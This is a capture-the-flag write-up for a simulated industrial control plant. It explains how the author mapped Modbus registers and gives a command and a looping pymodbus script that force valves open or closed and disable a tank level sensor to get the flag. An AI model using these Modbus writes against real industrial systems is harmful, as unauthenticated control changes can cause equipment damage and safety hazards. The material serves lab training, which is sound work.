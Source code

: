 ## Task 3 - Flag #2

```
Let the oil flow through the waste water valve only. Wait until the counter reaches 2000. Then connect and get the flag2: [http://MACHINE_IP/flag2.txt.

Mind that the simulation should be reset before starting by pressing the ESC button. If the flag cannot be obtained, try to reset the room and start the attack again.
```

**Now, we know the `Feed Pump` and `Tank Level Sensor` is using which register, but we don't know the rest.**

**To figure out the `Outlet Valve`, `Separator Vessel Valve` and `Waste Water Valve`, I'll:**

- Find the `Outlet Valve` register:

According to my observation, it seems like the **third one is the `Outlet Valve` register (0 = stop, 1 = open),** the **sixth one is the `Separator Vessel Valve` register(0 = open, 1 = close)**, the **seventh one is the amount of drops that went through the `Waste Water Valve`.**

**Armed with this information, we can obtain the flag in 2 ways:**

### 1. Easier way

- Set the seventh register to > 2000:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 set_register.py $RHOSTS 7 2001
```

- Get the flag!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# curl http://$RHOSTS/flag2.txt
{Redacted}
```

### 2. Hard way

- Set the first, third, seventh register to 1, the second register set to 0:

```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 1)  # Open Feed Pump
  client.write_register(2, 0)  # Turn off Tank Level Sensor
  client.write_register(3, 1)  # Open Outlet Valve
  client.write_register(7, 1)  # Close Seperator Vessel Valve
```
